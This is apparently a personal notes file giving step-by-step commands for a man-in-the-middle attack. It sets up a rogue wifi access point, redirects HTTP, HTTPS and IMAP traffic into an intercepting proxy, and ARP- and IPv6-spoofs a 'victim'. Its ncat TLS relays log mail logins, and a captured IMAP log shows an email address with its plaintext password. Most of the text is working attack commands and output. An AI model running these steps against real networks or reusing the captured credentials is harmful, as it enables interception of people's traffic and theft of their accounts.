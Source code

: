 # basics (put in a wifi stick and set up an access point
pamcan -S hostapd dnsmasq
cp hostapd.conf /etc/hostapd/hostapd.conf
cp dnsmasq.conf /etc/dnsmasq.conf

ip a add 10.10.0.1/24 dev wlan0
hostapd hostapd.conf
dnsmasq --test # syntax check
systemctl start dnsmasq

#### enable routing
sysctl -w net.ipv4.ip_forward=1
sysctl -w net.ipv6.conf.all.forwarding=1

### don't tell the victim: there is a faster route
sysctl -w net.ipv4.conf.all.send_redirects=0


# firewall redirects
iptables -t nat -F PREROUTING
ip6tables -t nat -F PREROUTING

##### burp must listen on 0.0.0.0 (127.0.0.1 is not enough; todo: try  -j DNAT --to-destination 127.0.0.1:xxxx)
iptables -t nat -A PREROUTING -i wlp3s0 -p tcp --dport 80 -j REDIRECT --to-port 8080
iptables -t nat -A PREROUTING -i wlp3s0 -p tcp --dport 443 -j REDIRECT --to-port 8080
iptables -t nat -A PREROUTING -i wlp3s0 -p tcp --dport 993 -j REDIRECT --to-port 993
\#iptables -t nat -A PREROUTING -i wlp3s0 -p tcp --dport 993 -j DNAT --to-destination 127.0.0.1:993

##### burp must listen on :: (::1 is not enough)
ip6tables -t nat -A PREROUTING -i wlp3s0 -p tcp --dport 80 -j REDIRECT --to-port 8080
ip6tables -t nat -A PREROUTING -i wlp3s0 -p tcp --dport 443 -j REDIRECT --to-port 8080
ip6tables -t nat -A PREROUTING -i wlp3s0 -p tcp --dport 993 -j REDIRECT --to-port 993
\#ip6tables -t nat -A PREROUTING -i wlp3s0 -p tcp --dport 993 -j DNAT --to-destination ::1:993


# if you are not the router: arp spoof
#### v4
sudo arpspoof -i <interface> -c both -t <victim> <router>
sudo arpspoof -i <interface> -c both -t <router> <victim>

#### v6
get default ip: ip -6 route get ::
sudo fake_advertise6 -r -w 2 wlp3s0 <fe80::of::gateway>

kmille@linbox hacktheworld% pacman -Qo /usr/bin/fake_advertise6
/usr/bin/fake_advertise6 is owned by thc-ipv6 3.6-1


### Debugging
install and use termux on the android phone
    - watch ip n or watch arp -n
    - curl -4 heise.de
    - curl -6 heise.de
install and use termux on the android phone
Wireshark filter on attacking machine:
    - ip.addr == $(dig -short heise.de ) or ipv6.addr == $(dig -short heise.de aaaa)

#### Imap
- Burp/mitmproxy only support http
- you can do it with netcat
    - http: sudo ncat --ssl --ssl-cert server.crt --ssl-key server.key --sh-exec "openssl s_client -quiet -connect heise.de:443 | tee -a ncat.log" -kl 127.0.0.1 443
    - imap: sudo ncat -o ncat2.log --ssl --ssl-cert server.crt --ssl-key server.key --sh-exec "openssl s_client -quiet -connect upstream-mailserver:993" -kl :: 993
    - ncat2.log will contain the IMAP commands (including the password)
    5 OK Search completed (0.001 + 0.000 secs).
6 UID FETCH 2,1 (UID FLAGS)
* 1 FETCH (UID 1 FLAGS (\Answered \Seen junk))
* 2 FETCH (UID 2 FLAGS (\Seen junk))
6 OK Fetch completed (0.001 + 0.000 secs).
1 NO [AUTHENTICATIONFAILED] Authentication failed.
1 NO [AUTHENTICATIONFAILED] Authentication failed.
2 LOGIN "mail@androidloves.me" "tifhddjfu"
2 LOGIN "mail@androidloves.me" "tifhddjfu"
7 NOOP
7 OK NOOP completed (0.001 + 0.000 secs).
8 EXAMINE "Archives.2018"
* OK [CLOSED] Previous mailbox closed.
* FLAGS (\Answered \Flagged \Deleted \Seen \Draft nonjunk)
* OK [PERMANENTFLAGS ()] Read-only mailbox.
* 1 EXISTS
* 0 RECENT
* OK [UIDVALIDITY 1484765072] UIDs valid
* OK [UIDNEXT 4] Predicted next UID
8 OK [READ-ONLY] Examine completed (0.000 + 0.000 secs).
9 UID SEARCH 1:1 NOT DELETED



# TODO
 - read this carefully: https://security.stackexchange.com/questions/33374/whats-an-easy-way-to-perform-a-man-in-the-middle-attack-on-ssl
 - Understand this fifo magic which does not work for me now
    - mkfifo request response
    - openssl s_server -quiet -no_ssl2 -cipher AES128-SHA  -accept 443 -cert fake.crt -key fake.key  < response | tee -a request
    - openssl s_client -quiet -connect www.server.com:443 < request  | tee -a response
- checkout https://www.stunnel.org/
- and https://github.com/jrmdev/mitm_relay


